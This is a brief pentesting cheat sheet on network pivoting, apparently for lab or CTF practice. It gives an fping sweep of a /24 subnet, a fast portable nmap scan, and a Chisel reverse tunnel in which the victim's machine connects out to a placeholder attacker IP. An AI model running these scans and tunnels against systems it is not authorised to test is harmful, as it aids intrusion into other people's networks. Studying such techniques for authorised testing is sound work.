 ### [Resources on pivoting]

https://www.offensive-security.com/metasploit-unleashed/pivoting/  

### [fping]

You can use fping to quickly ping hosts within a network.

https://fping.org/

https://fping.org/dist/

```
fping -q -a -g -r 1 <IP>/24
```

### [Portable NMAP Scanner]

You can scan and enumerate ports on a list of ports.

```
./nmap -iL ip_list.txt --min-rate=6000
```

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap  

### [Port Forwarding using Chisel]

ippsec demonstration

https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1620&ab_channel=IppSec

Breakdown

https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

```
Victims Box: ./chisel client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: ./chisel server -p 8011 --reverse
```
